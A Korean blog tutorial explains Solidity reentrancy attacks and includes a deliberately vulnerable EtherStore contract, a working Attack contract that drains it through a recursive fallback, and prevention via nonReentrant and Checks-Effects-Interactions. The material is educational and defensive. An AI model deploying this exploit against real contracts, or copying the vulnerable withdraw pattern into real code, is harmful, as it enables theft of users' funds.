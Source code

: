 ```yaml
---
emoji: 🧢
title: (취약점 시리즈 1) Reentrancy Attack (재진입 공격)?
date: '2021-12-20 18:38:00'
author: 한성원
tags: EVM Reentrancy ReentrancyAttack
categories: 취약점분석
---
```



# 👋 Reentrancy Attack (재진입 공격)


## 들어가기전
### Fallback 함수?
Fallback 함수는 contract에서 함수를 실행시킬때 함수가 존재하지 않는다면 실행되는 function이다. 
0.6이전 버전에서는 fallback이 ether는 것과 존재하지 않는 함수의 대비책으로 사용되었지만 0.6 이후 버전부터 fallback은 fallback과 receive로 나누어졌다. 0.6부터는 fallback을 사용하지 않고 receive를 통해 이더를 받을 수 있다.
- - -
## Reentrancy Attack(재진입 공격)이란?
Reentrancy Attack은 contract A가 하나의 user로써 contract B 에게 transaction을 보낸다. 이때 contract A가 요청에 대한 제어권을 가지게된다. 그렇게 되면 contract A가 보낸 첫번째 요청이 끝나기 전에 다른 함수를 계속해서 호출 할 수 있게된다. 이는 재진입을 ether를 빼올 수 있게 된다.
- - -

## Example Code
예시를 하나 보도록 하자! 
첫번째 contract A는 ether를 보관하는 곳
두번째 contract B는 A를 공격하는 contract이다.

그대로 remix를 사용해 테스트해보면 이해가 빠를 것이다!
```solidity

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
    
}
```

```solidity 
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
-  <span style="color:grey">출처: https://solidity-by-example.org/hacks/re-entrancy/</span>  

__EtherStore contract__ 를 보면 deposit과 withdraw 함수가 존재한다. 
- deposit 함수를 원하는 만큼의 ether를 보관할 수 있게 해주는 함수이다.
- withdraw 함수는 자신이 보관한 ether를 가져올 수 있는 함수이다. 

__Attack contract__ 에는 attack과 fallback함수가 존재한다.
- attack 함수는 ether 하나를 deposit하고 이후 바로 withdraw 한다
- fallback 함수에는 ether가 1이상 보관되어 있다면 withdraw함수를 다시 부른다.

함수가 호출되는 순서는 다음과 같다
```
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- ...(이후 반복)
```

1. 공격자가 attack 함수를 통해 EtherStore에 1 ether를 deposit한다
2. 이후 EtherStore에 1 ether를 찾겠다고 withdraw 함수를 호출한다.
3. withdraw 함수가 호출되면 attack 함수의 fallback function이 호출된다.(이더를 가져오기 때문에!)
4. 이후 fallback function 안에 있는 withdraw함수를 재호출 하게된다.
5. 이후 3-4 과정이 반복되며 재진입 공격이 성공한다.

이처럼 재진입 공격을 통해 부당한 이득을 취할 수 있게된다.

- - -
## How to prevent?
그렇다면 reentrency attack은 어떻게 예방 할 수 있을까?

Reentrency attack은 예방하는 방법은 총 2가지로 나눌 수 있다. 
1. openzeppline의 ReentrancyGuard contract의 noReentrant modifier 사용하기
    -  openzeppline Library는 secure smart contract 개발을 위한 Library이다.
    - noReentrant modifier의 코드는 이러하다. 
    ```solidity
        modifier nonReentrant() {
        // On the first call to nonReentrant, _notEntered will be true
        require(_status != _ENTERED, "ReentrancyGuard: reentrant call");

        // Any calls to nonReentrant after this point will fail
        _status = _ENTERED;

        _;

        // By storing the original value once again, a refund is triggered (see
        // https://eips.ethereum.org/EIPS/eip-2200)
        _status = _NOT_ENTERED;
    }
    ```
    함수 뒤에 noReentrant를 붙혀주는 것으로 쉬게 사용 가능하다.

2. Check-Effects-Interaction 패턴
  -  함수 내에서 interaction이 일어나기 전 check와 effect를 다 적용하는 패턴이다. 위 예제의 withdraw 함수 같은 경우 effect 부분이 interaction 부분 다음에 있는 것을 볼 수 있다. 
  - Check-Effects-Interaction 패턴을 적용하게 되면 interaction하기 전에 먼저 balance에 대한 데이터가 바뀜으로 reentrency하게 되어도 require문에 걸리게 된다.
  

  ```solidity
  function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}(""); // interaction 부분!!
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0; // effect!!
    }
  ```
- - -

## 마치며
"블록체인은 해킹 당하지 않는다!" 라는 것은 맞는 말이지만 블록체인 위에서 만들어지는 smart contract는 그렇지 않다. 코드를 조금이라도 잘못 짜게되면 Reentrency attack과 많은 취약점들이 생길 수 있다. 그럼으로 앞으로 취약점들에 대해 공부해 smart contract를 만들때 유의하도록 하자!!

```toc

```